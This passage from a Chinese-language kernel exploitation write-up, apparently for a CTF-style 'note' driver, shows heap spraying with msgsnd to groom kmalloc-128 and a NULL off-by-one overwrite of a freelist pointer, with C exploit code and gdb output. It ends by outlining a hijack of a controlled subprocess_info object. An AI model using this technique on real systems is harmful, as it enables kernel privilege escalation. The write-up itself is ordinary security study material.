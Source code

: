 可以看到在这里，A的next并不是与A连续的堆地址，并且A的地址并不是`...0x080`；导致修改next后的堆块不可控。

A的next指向的并不是连续地址，证明在free之前，kmalloc-128已经有了大量的空闲堆块，所以需要用kmalloc-128堆块占位，通过`msgsnd`可以达到目的。

```c

#define MSGSPRAY(qid, msgbuf, times) \
	for(int i=0; i<times; i++) {\
		msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext)-0x30, 0);}

int main()
{

	unsigned char buffer[0x100];
	int qid; 

	open_dev();
	qid = msgget(IPC_PRIVATE, IPC_CREAT | IPC_EXCL);
	if(qid == -1){
		puts("[!] Failed to msgget");
		exit(-1);
	}
	struct msgbuf_80 msgbuf = {.mtype = 1};
	memset(msgbuf.mtext, '1', 0x50);

	MSGSPRAY(qid, msgbuf, 0x30);	// 占据0x30个（多一些，占完所有kmalloc-128的空闲堆块）

	note_alloc(0x80);
	memset(buffer, 'a', 0x80);
	note_write(buffer, 0x80);		// vuln
	note_free();
}
```

此时，释放note之后的堆分布连续，并且NULL-Off-By-One成功修改B的next指向B自身`0xffff8c824de1a200`。

```assembly
gdb-peda$ x/20gx 0xffff8c824de1a180
0xffff8c824de1a180:	0xffff8c824de1a200	0x6161616161616161
0xffff8c824de1a190:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1a0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1b0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1c0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1d0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1e0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a1f0:	0x6161616161616161	0x6161616161616161
0xffff8c824de1a200:	0xffff8c824de1a200	0x0000000000000000
0xffff8c824de1a210:	0x0000000000000000	0x0000000000000000
```

##### 利用

在满足了上述堆分布状态之后，就可以再连续三次分配kmalloc-128：

* 第一次占位释放的A
* 第二次占位B，且控制内容
* 第三次分配一个subprocess_info到B，由于在第二次中控制了B的内容，使得subprocess_info内容完全可控。
